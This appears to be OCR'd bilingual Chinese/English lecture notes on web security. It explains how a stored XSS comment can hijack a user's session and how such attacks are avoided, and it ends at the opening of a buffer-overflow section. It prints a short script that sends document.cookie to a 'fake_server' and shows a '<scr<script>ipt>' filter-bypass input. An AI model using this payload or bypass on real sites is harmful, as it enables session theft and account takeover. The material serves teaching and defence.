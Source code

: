 我们假设该网站让用户添加评论，所有用户都可以看到其他用户的评论。•	Let us assume the web site lets users add comments, and all users can see the comments of other users.

- 攻击者**添加了一个评论，其中包括一个连接到由攻击者运行的另一个服务器的脚本**。•	The attacker adds a comment that includes a script that connects to another server run by the attacker.
- 当受害者阅读评论时，他们会被**重定向到假网站**。•	When the victim reads the comments, they are redirected to the fake website.
  - 他们的**cookie会以通常的方式被发送到假网站**。•	Their cookie is sent to the fake website in the usual way.
  - 然后，**攻击者**可以**存储**它。•	The attacker can then store it.
- 攻击者的网站然后将用户重定向到原始网站。•	The attacker’s website then redirects the user back to the original site.
  - 受害者只是注意到一个轻微的闪动。•	The victim just notices a slight flicker.
- 然后，攻击者可以连接到原来的服务器，假装是受害者。•	The attacker can then connect to the original server, pretending to be the victim.

---

简化的劫持脚本例子 simplified Hijacking Script

- 受害者会收到一个嵌入脚本的HTML页面（comment里。•	The victim receives a HTML page with the embedded script.

```html
<script>
document.location.replace("fake_server "+"? what="+document.cookie)
</script>
```

- 这里的代码将把受害者重定向到假服务器。•	The code here will redirect the victim to the fake server.
- **该代码有一个单参数what，其值是会话cookie**。•	The code has a single parameter what with the session cookie as its value.
- 这允许攻击者在他们控制的服务器上使用php窃取cookie id。•	This allows the attacker to steal the cookie id using php on the server they control.
- 一些额外的代码将是必要的，以便**在没有无限循环的情况下将受害者送回原网站**。•	Some additional code will be necessary to send the victim back to the original website without an infinite loop.

浏览器本身会提供一些安全措施

# 避免XSS攻击

- **在输出（HTML）被发送到客户端之前验证它**。•	Validate output (HTML) just before it is sent to the client.
- 攻击脚本可能来自几个地方，**我们可能没有检查所有的地方**。•	The attack script might have come from several places and we might not check all of them.
- **禁用网页中的JavaScript**是一个激烈的步骤，**往往会导致网站功能的破坏**。•	Disabling JavaScript in web pages is a drastic step that often causes site functionality to break.
- 如果攻击者注入了以下形式的代码。•	If an attacker has injected code of the form:
  - `<scr<script>ipt>`。
  - Eliminating `<script>` will leave `<script>`

# ===========

# 缓冲区溢出攻击：Programming Language Problems

缓冲区溢出攻击涉及到**向不应该被你的程序触及的内存区域写东西**。•	Buffer overflow attacks involves writing to areas of memory that should not be touched by your program.
